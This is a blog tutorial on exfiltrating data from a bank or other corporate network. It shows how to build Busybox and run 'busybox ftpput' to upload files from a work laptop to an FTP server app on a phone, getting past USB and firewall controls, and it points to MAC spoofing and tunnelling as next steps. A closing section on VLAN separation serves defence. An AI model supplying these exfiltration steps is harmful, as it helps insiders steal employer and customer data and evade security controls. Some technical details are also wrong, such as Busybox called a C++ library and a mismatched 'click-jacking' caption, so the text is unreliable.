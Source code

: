 ```yaml
---
title: Exfiltrating data from a bank
author: hugo
date: 2023-04-04 09:11:00 +0200
categories: [Tutorial, security]
tags: [hacking, android, cmake]
render_with_liquid: false
---
```



> This tutorial will guide you through the process of bypassing security procedures from your employer. The author gives this example for educational purposes and does not incentivise you to apply these techniques without prior consent
{: .prompt-info }


## The art of deception

_The best defense is a good offense_. Once you're able to set this up and try it yourself you'll get a good grasp of how this attack works and what your employer should do to improve their security. Let's define what we mean by "insecure design".

<em>Insecure Design is a category of weaknesses that originate from missing or ineffective security controls. Some applications are built without security in mind. Others do have a secure design, but have implementation flaws that can lead to exploitable vulnerabilities.</em> [`A04:2021—Insecure Design`](https://www.imperva.com/learn/application-security/owasp-top-10/).

Today's exercise is a quick showcase of a C++ library called Busybox. Head over to busybox's [download page](https://busybox.net/downloads/) to build this library from source. I'll go over the setup in the next section so if that's what you came for you can skip the next couple paragraphs.

![click-jacking success](/assets/img/posts/2023-04-04_02-25.png){: width="100%"}

If you've worked in corporate environments you'll know that moving data around is impossible to do with regular USB mass storage devices. These measures are in place to prevent fraud or data theft. Most vendors like microsoft or red hat linux and citrix provide ways to block the usage of these mass storage devices as well. The picture above showcases how to enable this security measure on Windows 10.

So how would a hacker go about exfiltrating data out of this corporate environment? Well there are multiple ways of going about it and it will largely depend on your constraints. Most corporate clients these days will shield their systems and employees from the internet by using firewalls like pfsense that manage a black list of websites that go against the company's policies. You won't be surprised to know that trello, github, gitlab, excel online, google sheets, dropbox or any of those services have to be blocked in order to avoid the risk of someone (accidently) storing data on those services.

However, corporate or not most companies will need developers to work on their codebase who will lobby against these security measures to have a certain degree of openness and allow them to shamelessly copy open source projects. Compromises will therefore have to be made.

A friend told me once he remembers working at client site and suddenly being blocked from downloading his python libraries from pypi.org which is (as far as I know) the single biggest repository out there. This measure had come about because trojan and viruses were being discovered by security researchers on pypi and published in the news. Management's natural reaction was to block the whole thing alltogether. Thankfully for him, they blocked the proxy used by "pip" but forgot that you could just as well download and install your libraries from source on [pypi's](https://pypi.org/) website so that measure didn't stop or help security. The only option that would have made sense would have been to create a central repo administered by engineers who examined the software line by line before accepting external libraries. I'm sure RHEL or Microsoft have found ways to do that and probably already sell those services to corporate clients.

## Strategy and setting up your work bench

The plan is to set Busybox as a relay and send our data to our phones via the file transfer protocol (FTP). I used an app called "WiFi FTP Server" on google's play store but I'm sure any FTP app will do.

Let's now unzip the c++ library and create the Busybox executable with the next two commands.

```console
    [waz@localhost]# make defconfig
    [waz@localhost]# make
    
```

In case you want to add Busybox to your path and be able to run it anywhere on your system run `sudo make install instead`. You probably won't have superuser privileges on your corporate laptop so let's stick with our user executable.

## Sending and receiving files

Let's try sending a test file. Start up your ftp server on your phone and note down your phone's IP and port number. In order to send a file to your phone the only command you'll need is 

```console
    [waz@localhost]# echo "It works !" > data.txt
    [waz@localhost]# busybox ftpput 192.168.178.43:2221 data.txt
    
```

You can always add the -v option to the command above to have more information on what's happening under the hood.

We've just uploaded a file onto our phone but what if we needed to download some legally obtained torrents to stream a tv show during work hours? Well that can be done with the exact same process using the `ftpget` command instead. 

## Video

I like to add a small clip to showcase what was said so far. Enjoy !

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://youtube.craftstudios.shop/uploads/netgear/Videos/chirpy/2023-04-04%2021-02-59.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

</div>

## Conclusion

Exfiltrating data from banks is not an easy endeavour but thankfully there are holes in the security policies that make it so much easier. This phone pairing was possible because the phone was able to connect to the same network as the laptop. What a coporate client could have done to combat this type of attack is to simply seggregate its devices into different virtual local area networks (VLANs for the nerds out there). The laptops supplied to the employees have mac addresses that would assign them to VLAN 1 for example while any other employee device would connect to VLAN2. By using this setup you would prevent devices from VLAN 2 from communicating with devices on VLAN 1.

In this hypothetical scenario where the employer did implement separate VLANs the hacker could instead send his ftp requests over to a server on the internet instead or spoof the mac address of the company's laptop but that is out of scope of this tutorial. The request would probably get blocked by the ftp port being closed by a firewall or security policy anyway so let's leave that analysis for a future article. I might write a follow up to this article on how to do spoofing or how to modify the ip tables that route the laptop's traffic to re-route our ftp traffic through an SSH, VPN or SOCKSv5 connecion. 

Thank you for reading this far.

Take care
